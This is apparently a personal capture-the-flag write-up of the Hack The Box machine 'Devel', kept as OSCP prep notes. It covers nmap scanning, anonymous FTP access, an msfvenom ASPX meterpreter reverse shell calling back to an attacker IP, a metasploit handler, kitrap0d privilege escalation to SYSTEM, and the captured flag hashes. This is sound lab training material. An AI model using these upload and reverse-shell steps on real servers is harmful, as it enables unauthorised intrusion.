





**Start 12:11 14-08-2024**

---
```
10.10.10.5
```
## Recon
### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.5                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:12 IST
Nmap scan report for 10.10.10.5
Host is up (0.028s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.19 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sT -sV -p1-1000 -T5 10.10.10.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:12 IST
Nmap scan report for 10.10.10.5
Host is up (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 08-13-24  05:53PM                 1442 cmd.aspx
| 08-13-24  05:42PM                   14 iisstart.htm
| 08-11-24  09:27PM                38171 shell.asp
| 08-11-24  09:30PM                  358 shell2.asp
| 08-11-24  09:32PM                 2899 shell3.aspx
| 08-14-24  11:32AM                 2954 update.aspx
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.90 seconds
```

We see that `port 21 FTP` is running and that `anonymous login is allowed`.

### 21/TCP - FTP

We simply login as `anonymous` without a `password`:

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.5                                                                                                                                   
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> 
```

Now that we're in we can start to exploit it. We can try to upload an `aspx reverse shell` onto the target and get access to the webserver.

## metasploit
Use the following command to make the reverse shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > devel.aspx
```

After the shell is created we can go ahead and start the listener using `metasploit`:

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.24
LHOST => 10.10.14.24
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444 
```

Now we need to upload the `devel.aspx` file onto the `ftp server`:

```bash
ftp> put ./devel.aspx 
local: ./devel.aspx remote: ./devel.aspx
229 Entering Extended Passive Mode (|||49196|)
125 Data connection already open; Transfer starting.
100% |*****************************************************************************************************************|  2922       44.94 MiB/s    --:-- ETA
226 Transfer complete.
2922 bytes sent in 00:00 (195.29 KiB/s)
ftp> 
```

The file should be loaded after browsing to `http://10.10.10.5/devel.aspx` and that will trigger the reverse shell.



Now we get the reverse shell in `metasploit`:

```bash
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.14.24:4444 
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.24:4444 -> 10.10.10.5:49198) at 2024-08-14 11:28:26 +0100

msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 1052 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

From here we want to switch on over to the `Temp` directory, where we have write and execute permissions, since most of `metasploits` exploits require a file to be written to the target machine.

## Privilege Escalation
we run `systeminfo` to gather information about our environment:

```powershell
c:\Windows\Temp>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          11/8/2024, 6:53:11 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.409 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.473 MB
Virtual Memory: In Use:    668 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::bc0e:4ac1:5a6f:b9a9
                                 [03]: dead:beef::b943:42ef:23d9:b021
                                 [04]: dead:beef::bc0e:4ac1:5a6f:b9a9

c:\Windows\Temp>
```

We notice that it's running on a `Windows 7 Enterprise version 6.1`

We can now `ctrl + c` the shell and `background the session` in order to use the `local_exploit_suggester` module from metasploit.



This gives us some exploits which can be used on our target:



From these the 3rd option, or `exploit/windows/local/ms10_015_kitrap0d`, seems the most useful for our case. After looking it up it seems like it's a `SYSTEM Escalation` script:



Let's use this one and set up all the necessary options for it.



Start up the session again using `sessions -i ID` and:

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

We are `root`.

### user.txt
From the `babis` user we can now get the user flag.

```powershell
c:\Users\babis>cd Desktop
cd Desktop

c:\Users\babis\Desktop>type user.txt    
type user.txt
5fba27b1f6bd2ac0dc597cf4980b5aee

c:\Users\babis\Desktop>
```

### root.txt
Go to `Administrator\Desktop`:

```powershell
c:\Users>cd Administrator\Desktop
cd Administrator\Desktop

c:\Users\Administrator\Desktop>type root.txt
type root.txt
5417dd5721ab67ac82febd990d7d4785

c:\Users\Administrator\Desktop>
```


---

**Finished 12:49 14-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
